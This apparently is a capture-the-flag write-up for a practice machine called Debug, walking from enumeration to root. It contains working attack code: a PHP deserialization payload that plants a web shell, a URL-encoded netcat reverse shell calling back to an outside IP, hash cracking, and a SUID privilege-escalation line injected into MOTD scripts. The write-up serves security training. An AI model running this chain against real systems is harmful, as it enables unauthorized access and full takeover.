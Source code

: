 # Debug - Medium

* Add ```debug.thm``` to ```/etc/hosts``` and scan the machine - ```nmap -T4 -p- -A -Pn -v debug.thm```:

  * 22/tcp - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
  * 80/tcp - http - Apache httpd 2.4.18 ((Ubuntu))

* The page on port 80 leads us to the default landing page for Apache. We can start with some basic enumeration:

  ```sh
  gobuster dir -u http://debug.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak,jpg,zip,bac,sh,png,md,jpeg -t 25
  # directory scanning

  ffuf -c -u "http://debug.thm" -H "Host: FUZZ.debug.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 25
  # subdomain enumeration

  ffuf -c -u "http://debug.thm" -H "Host: FUZZ.debug.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 25 -fs 11321 -s
  # filtering false positives

  gobuster vhost -u http://debug.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
  # vhost enumeration
  ```

* Directory scanning gives us some interesting finds:

  * /index.php
  * /javascript
  * /message.txt
  * /backup
  * /readme.md
  * /grid
  * /less
  * /javascripts

* /readme.md mentions a JS framework named Base; this could be used here but we would need to check further

* /index.php includes a sample page for Base

* /less and /javascripts include the files as mentioned in the README; /grid includes a .psd file which contains a grid for Base. So we can infer Base framework is being used

* /message.txt has a template for an email message

* /backup includes similar directories as above - the files 'index.html.bak' and 'index.php.bak' were not seen before

* The 'index.html.bak' file does not have anything interesting; nothing seems different from the current /index.html

* 'index.php.bak' however includes the following snippet:

  ```php

  class FormSubmit {

  public $form_file = 'message.txt';
  public $message = '';

  public function SaveMessage() {

  $NameArea = $_GET['name']; 
  $EmailArea = $_GET['email'];
  $TextArea = $_GET['comments'];

    $this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

  }

  public function __destruct() {

  file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
  echo 'Your submission has been successfully saved!';

  }

  }

  // Leaving this for now... only for debug purposes... do not touch!

  $debug = $_GET['debug'] ?? '';
  $messageDebug = unserialize($debug);
  ```

* We can test for [PHP deserialization attacks](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection) as the user input is not sanitized in this case. Since ```unserialize()``` is used to unserialize a HTTP GET variable, we will be controlling the value of ```messageDebug```.

* [Here is an example](https://www.bootlesshacker.com/php-deserialization/) that we will be following; we can create this PHP file first based on the 'index.php.bak' file:

  ```php
  <?php

  class FormSubmit {
    public $form_file = 'shell.php';
    public $message = '<?php system($_GET["cmd"]); ?>';
  }

  echo urlencode(serialize(new FormSubmit));

  ?>
  ```

  ```sh
  php -q test.php
  # creates the object and serializes it into a string according to set values
  # and prints URL-encoded serialized string

  curl http://debug.thm/index.php?debug=O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A7%3A%22message%22%3Bs%3A30%3A%22%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%22%3B%7D
  ```

* Now, if we navigate to <http://debug.thm/shell.php?cmd=id>, we get RCE

* We can get a reverse shell after setting up a listener using ```nc -nvlp 4444```; in webshell, this URL-encoded payload can be used - ```rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.112.53%204444%20%3E%2Ftmp%2Ff```:

  ```sh
  # in reverse shell
  # we can first upgrade to stable shell
  which python3

  python3 -c 'import pty;pty.spawn("/bin/bash")'

  export TERM=xterm
  # Ctrl+Z now
  stty raw -echo; fg
  # press Enter key twice

  pwd
  # /var/www/html

  ls -la
  # we have .htpasswd

  cat .htpasswd
  # this gives us a hash

  ls -la /home
  # we have user 'james'

  ls -la /home/james
  # permission denied
  ```

* We can crack the hash found in ```.htpasswd``` using ```hashcat```:

  ```sh
  vim apachehash.txt
  # paste hash here

  hashcat -a 0 -m 1600 apachehash.txt /usr/share/wordlists/rockyou.txt
  # this gives us the password 'jamaica'
  ```

* We can attempt SSH login using these creds:

  ```sh
  ssh james@debug.thm
  # this works

  cat user.txt
  # get user flag

  ls -la
  # we can check other files here

  less Note-To-James.txt
  # the note mentions SSH welcome message
  # it also mentions James has permissions to modify those files

  # we can check the MOTD files
  ls -la /etc/update-motd.d/
  # 'james' has rwx permissions
  ```

* Since we have the permission to modify the MOTD files, we can [inject some code for privesc](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/):

  ```sh
  echo "cp /bin/bash /home/james/bash && chmod u+s /home/james/bash" >> /etc/update-motd.d/00-header
  # copy bash binary and give suid to it

  # now we can logout of ssh
  exit

  # and login again
  ssh james@debug.thm

  ls -la
  # we do have a bash binary here

  ./bash -p
  # root shell
  ```
